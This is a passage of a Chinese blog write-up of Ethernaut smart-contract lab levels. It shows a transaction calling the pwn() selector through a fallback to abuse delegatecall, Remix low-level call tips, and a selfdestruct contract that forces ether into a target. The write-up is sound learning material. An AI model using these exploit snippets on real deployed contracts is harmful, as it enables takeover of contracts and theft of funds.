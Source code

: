 ```javascript
await contract.sendTransaction({data:0xdd365b8b});
```

至于这个函数前面的值，在本地算一下就可以了：

```javascript
pragma solidity ^0.4.0;

contract B {
    bytes4 public result;
    function test() public  {
        result = bytes4(keccak256("pwn()"));
    }
}
```

太菜了主要还不太懂web3.js，看来剩下的题目要暂时咕几天，先去学习一下web3.js。

**后来**：
发现了就是Remix上的这个功能：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413231513364.png)
把题目的代码复制上去，然后点At Address，就可以在Remix进行交互：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413231921546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)


但是这似乎还是没区别。注意下面的`Low level interactions`，之前一直都没用过。
参考文章：[Low level interactions on Remix IDE](https://medium.com/remix-ide/low-level-interactions-on-remix-ide-5f79b05ac86)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413231705916.png)
因此这里就相当于直接可以调用那个fallback函数，而且下面的框里面输入的就是calldata：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413231806512.png)
因此直接搞即可。但是后来发现失败了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413231826608.png)
还有个坑，就是gas限制的问题：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413231943149.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
29858太小了，虽然说是交易成功，但是要仔细看交易的Details才能知道是因为gas不够而失败了。日！突然发现之前好像就是因为这个坑卡了几个小时还没解决，之前的那些问题似乎都是因为gas这个限制太小了，所以我们给它稍微加大一点，就可以成功了。

# Force

给了一个空的合约，要求：
The goal of this level is to make the balance of the contract greater than zero.

直接利用selfdestruct即可：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413234428960.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)

因此强制转账：

```javascript
pragma solidity ^0.6.0;

contract Feng {
    function attack(address _addr) payable public {
        selfdestruct(payable(_addr));
    }
}
```
